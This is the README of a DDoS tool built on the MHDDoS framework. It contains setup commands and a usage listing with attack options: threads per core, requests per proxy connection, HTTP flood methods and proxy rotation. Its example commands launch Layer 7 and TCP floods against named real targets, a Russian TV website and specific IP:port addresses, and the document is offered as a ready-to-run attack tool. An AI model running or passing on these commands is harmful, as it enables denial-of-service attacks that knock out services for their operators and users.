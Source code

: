 ## Setup

    git clone https://github.com/porthole-ascend-cinnamon/mhddos_proxy.git
    cd mhddos_proxy
    git clone https://github.com/MHProDev/MHDDoS.git
    git clone https://github.com/monosans/proxy-scraper-checker.git
    python3 -m pip install requirements.txt

# Usage

    python3 runner.py --help

    usage: runner.py [-h] 
                     [-t THREADS] 
                     [-p PERIOD]
                     [--proxy-timeout PROXY_TIMEOUT]
                     [--rpc RPC] 
                     [--skip-proxy-init]
                     targets [targets ...]

    positional arguments:
      targets                List of targets, separated by spaces
    
    optional arguments:
      -h, --help             show this help message and exit
      -t 100                 Number of threads per CPU core
      -p 300                 How often to update the proxies
      --proxy-timeout 3      How many seconds to wait for the proxy to make a connection.
                             Higher values give more proxies, but with lower speed/quality.
                             Parsing also takes more time

      --rpc 100              How many requests to send on a single proxy connection
      --http-methods GET     List of HTTP(s) attack methods to use.
                             Default is GET, STRESS, BOT, DOWNLOADER.
                             Refer to MHDDoS docs for available options
                             (https://github.com/MHProDev/MHDDoS)

# Examples

HTTP(S) Layer 7 attack - randomly chosen method from --http-methods parameter (see above for defaults).

    python3 runner.py target1 target2 target3

Target examples

- HTTP(S) by URL - `http://tvzvezda.ru` | `https://tvzvezda.ru`
- HTTP by IP:PORT - `5.188.56.124:9000`
- TCP by IP:PORT - `tcp://194.54.14.131:4477`

Increase load

    python3 runner.py -t 300 https://tvzvezda.ru

Update proxies less often (every 600s)

    python3 runner.py -p 600 https://tvzvezda.ru

More proxies

    python3 runner.py --proxy-timeout 5 https://tvzvezda.ru

# TODO

- [ ] UDP support - need MHDDoS to support SOCKS5 proxies for UDP
- [ ] Docker image
